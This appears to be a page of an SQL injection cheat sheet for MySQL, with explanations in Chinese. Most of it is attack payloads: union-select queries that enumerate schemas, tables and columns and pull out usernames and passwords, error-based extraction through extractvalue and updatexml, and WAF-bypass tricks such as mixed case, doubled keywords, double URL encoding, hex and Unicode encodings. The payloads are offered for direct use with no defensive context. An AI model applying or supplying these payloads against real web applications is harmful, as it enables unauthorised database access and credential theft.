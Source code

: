 2.1 sql_injection—mysql

	    Order by num
	    and 1=1 union select 1,2,3,4,5…….n/*
	    and 1=2 union select 1,2,3,4,5…..n/*
	    and 1=2 union select 1,2,3,SCHEMA_NAME,5,6,7,8,9,10 from information_schema.SCHEMATA limit 0,1
	    and 1=2 union select 1,2,3,TABLE_NAME,5,6,7,8,9,10 from information_schema.TABLES where TABLE_SCHEMA=hex(database) limit 0,1
	    and 1=2 Union select 1,2,3,COLUMN_NAME,5,6,7,8,9,10 from information_schema.COLUMNS where TABLE_NAME=hex(table) limit 0,1
	    Union select 1,2,3concat(username,0x3c,password),5,6,7,8,9 from table limit 0,1
	
	    Extractvalue
	    and extractvalue(1, concat(0x5c, (select table_namefrom information_schema.tableslimit 1)));
	    UpdateXml
	    and 1=(updatexml(1,concat(0x3a,(select user())),1))

2.2 sql_injection—mysql bypass

绕过WAF的几种常见方法：
	a) 大小写混合
	
	用于只针对小写或大写的关键字匹配技术，正则表达式匹配时大小写不敏感无法绕过。
	
	abc.com/index.php?page_id=-1 uNIoN sELecT 1,2,3,4

	b)替换关键字（ and->&&、or->|| %0b代替空格）
	
	正则表达式替换或删除select、union等关键字，且只匹配一次。
	uniunionon
	
	abc.com/index.php?page_id=-1 UNIunionON SELselectECT 1,2,3,4

	c)使用编码 （url编码、16进制）
	
	使用编码——url编码
	
	普通的URL编码可能无法实现绕过不过存在某种情况URL编码只进行了一次解码过滤可以用两次编码绕过
	
	page.php?id=1%252f%252a*/UNION%252f%252a/SELECT
	
	page.php?id=1%2f%2a*/UNION%2f%2a/SELECT 一次解码
	
	page.php?id=1/**/UNION/*/SELECT   两次解码
	
	使用编码——十六进制编码
	
	abc.com/index.php?page_id=-1 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4,SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61))
	
	abc.com/index.php?page_id=-1 /*!union*/ /*!select*/ 1,2,3,4,SELECT(extractvalue(<a>admin</a>, /a))
	
	使用编码——Unicode编码
	
	单引号：%u0027、%u02b9、%u02bc、%u02c8、%u2032、%uff07、%c0%27、%c0%a7、%e0%80%a7
	
	空格：%u0020、%uff00、%c0%20、%c0%a0、%e0%80%a0
	
	左括号：%u0028、%uff08、%c0%28、%c0%a8、%e0%80%a8
	
	右括号：%u0029、%uff09、%c0%29、%c0%a9、%e0%80%a9
	